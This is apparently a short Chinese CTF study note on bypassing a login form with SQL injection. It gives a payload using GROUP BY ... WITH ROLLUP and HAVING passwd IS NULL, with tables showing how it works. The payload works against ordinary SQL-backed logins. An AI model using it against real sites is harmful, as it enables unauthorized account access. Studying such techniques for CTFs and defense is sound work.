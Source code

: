 tags:: [[CTFWEB/SQL]]

- # 登陆
	- username填`' or 1 group by passwd with rollup having passwd is NULL#`，密码不填
	- 原理
		- 原表格
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
		- `group by passwd`根据密码分组
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
		- `with rollup`创建“总计”行，其中passwd为NULL
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
			  |xxx|NULL|
		- `having passwd is NULL`选中“总计”行
			- |username|passwd|
			  |---|---|
			  |xxx|NULL|
	-
